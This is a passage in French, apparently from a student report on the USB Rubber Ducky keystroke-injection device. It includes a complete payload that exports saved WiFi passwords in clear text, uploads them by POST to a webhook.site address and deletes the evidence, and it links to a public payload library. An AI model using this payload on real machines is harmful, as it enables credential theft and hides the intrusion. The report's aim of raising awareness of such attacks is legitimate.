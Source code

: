 Ces exemples sont simples dans une volonté de montrer de petites opérations inoffensives.

En revanche, ils démontrent le potentiel d'attaque de cette technologie. D'autres scripts plus dangereux sont libres d'être utilisés en suivant ce [lien](https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library)[^10].

Typiquement, voici un exemple permettant de prendre les mots de passe du WiFi d'une machine et les envoyer à un serveur distant par la méthode POST.

```powershell
DELAY 3000
GUI r
DELAY 100
STRING cmd /k
ENTER
DELAY 500
STRING cd %temp%
ENTER
DELAY 500
STRING netsh wlan export profile key=clear
ENTER
DELAY 1000
ENTER
STRING powershell Select-String -Path Wi*.xml -Pattern 'keyMaterial' > WiFi-PASS
ENTER
DELAY 1000
STRING powershell Invoke-WebRequest -Uri https://webhook.site/URL -Method POST -InFile WiFi-PASS
ENTER
DELAY 1000
STRING del WiFi* /s /f /q
ENTER
DELAY 100
STRING exit
ENTER
```

Il y a énormément d'autres scripts utilisables, et l'implémentation d'un script est relativement simple. En revanche, les moyens se complexifient sur la manipulation a effectué. Une connexion à un serveur distant via tcp par exemple demande une certaine organisation et un serveur en marche que l'on souhaite atteindre, puis vérifié que les données envoyées sont bien arrivées sur le serveur distant.

# Conclusion

Par l'utilisation de la clé d'usurpation *USB Rubber Ducky*, il a été possible de lancer des `payloads` après une simple connexion du matériel.

Un test a été effectué avec l'ordinateur de l'école, et rien n'a été détecté concernant un inhabituel comportement du PC, même avec des `payloads` sans délai entre les commandes.

La mise en place une fois avoir compris comment fonctionnait l'encodeur est si simple que cela soulève une grande inquiétude. En sachant que ce matériel est accessible à tous et que sa fabrication ne demande que très peu de ressources, il est quasiment impossible de se protéger contre une attaque de ce genre actuellement. Il suffit de laisser son ordinateur sans surveillance et c'est déjà potentiellement trop tard.


[8]: May 1, 2017  By Pierluigi Paganini, [WHID Injector: How to Bring HID Attacks to the Next Level](https://securityaffairs.co/wordpress/58587/hacking/whid-injector-bring-hid-attacks.html#:~:text=WHID%20stands%20for%20WiFi%20HID,HID%20Attacks%2C%20during%20their%20engagements.)
[^1]: hak5darren, github [USB Rubber Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)
[^2]: elie.net, Elie Bursztein, [What are malicious usb keys and how to create a realistic one?](https://elie.net/blog/security/what-are-malicious-usb-keys-and-how-to-create-a-realistic-one/)
[^3]: elie.net, Elie Bursztein, [Concerns about usb security are real](https://elie.net/blog/security/concerns-about-usb-security-are-real-48-percent-of-people-do-plug-in-usb-drives-found-in-parking-lots/)
[^4]: May 1, 2017  By Pierluigi Paganini, [WHID Injector: How to Bring HID Attacks to the Next Level](https://securityaffairs.co/wordpress/58587/hacking/whid-injector-bring-hid-attacks.html#:~:text=WHID%20stands%20for%20WiFi%20HID,HID%20Attacks%2C%20during%20their%20engagements.)
[^5]: hak5darren, 19 décembre 2016, github, [USB-Rubber-Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)
[^6]: Waveshare, Ai-Thinker, [ESP-12s Module WiFi](https://www.waveshare.com/esp-12s.htm)
[^7]: Teensy 3.2 [pjrc](https://www.pjrc.com/store/teensy32.html)
[^8]: installation de Java [Java JRE](https://www.java.com/fr/download/manual.jsp)
[^9]: Lucas Bongiorni, github, [Teensy Penetration Testing Payload](https://github.com/LucaBongiorni/peensy)
[^10]: Payloads library, github, [hak5 payloads library](https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library)
[^11]: WiFiDuck, github [WiFiDuck](https://github.com/SpacehuhnTech/WiFiDuck)